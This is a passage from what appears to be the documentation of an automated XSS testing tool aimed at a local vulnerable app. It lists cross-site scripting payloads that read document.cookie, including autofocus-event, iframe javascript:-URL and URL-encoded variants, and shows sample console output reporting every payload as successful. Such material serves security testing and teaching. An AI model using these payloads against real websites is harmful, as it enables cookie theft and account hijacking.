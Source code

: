 ```javascript
document.getElementById('cookieOutput').innerHTML='<h3>XSS SUCCESS: '+document.cookie+'</h3>'
```
Tests targeted DOM element manipulation.

### 6. **Input Autofocus Attack**

```html
<input onfocus=alert(document.cookie) autofocus>
```
Tests automatic event triggering.

### 7. **Iframe JavaScript URL**

```html
<iframe src=javascript:alert(document.cookie)>
```
Tests iframe-based script execution.

### 8. **URL Encoded Payload**

```
%3Cscript%3Ealert(document.cookie)%3C/script%3E
```
Tests encoding bypass techniques.

## Expected Output

### Console Output Example

```
🚀 Starting XSS Vulnerability Automated Exploitation
============================================================
✅ Target application is accessible: http://localhost:8000/
✅ WebDriver initialized successfully

🧪 Testing 8 different XSS payloads...
------------------------------------------------------------
🧪 Testing payload: basic_alert
📝 Description: Basic JavaScript alert showing cookies
✅ SUCCESS: Alert displayed cookie content

🧪 Testing payload: html_script_tag
📝 Description: HTML script tag injection
✅ SUCCESS: Alert displayed cookie content

[... continues for all payloads ...]

📊 EXPLOITATION SUMMARY
------------------------------------------------------------
Target: http://localhost:8000/
Successful Exploits: 8/8
Success Rate: 100.0%

❌ CRITICAL VULNERABILITY CONFIRMED
🔍 The application is vulnerable to XSS attacks
⚠️  Multiple attack vectors are exploitable
🛠️  Immediate remediation required
```
